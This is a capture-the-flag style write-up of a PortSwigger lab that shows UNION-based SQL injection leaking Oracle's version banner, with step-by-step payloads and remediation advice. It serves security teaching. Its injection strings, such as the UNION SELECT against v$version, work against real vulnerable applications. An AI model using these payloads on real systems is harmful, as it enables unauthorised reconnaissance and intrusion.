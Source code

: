 # SQL injection attack, querying the database type and version on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

![Lab banner – PortSwigger Practitioner level](2.png)

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition (XE / SE / EE) and patch level helps adversaries predict which auditing or security features are enabled.
* **Recon → privilege escalation:** Version leakage often forms one step in chained attacks that culminate in remote code execution or full data exfiltration.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability**<br>Baseline request: `/filter?category=Pets`                                            | `SELECT * FROM someTable WHERE category='Pets'`                                            | Normal list of “Pets” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with<br>`/filter?category=Pets'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

![Lab banner – PortSwigger Practitioner level](3.png)
> Queried Oracle version

---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Pets`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

![Lab banner – PortSwigger Practitioner level](4.png)
> The complete Oracle banner output
---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string—information invaluable to any attacker planning further compromise. Eliminating string-concatenated SQL and enforcing least-privilege DB roles are top-priority fixes.
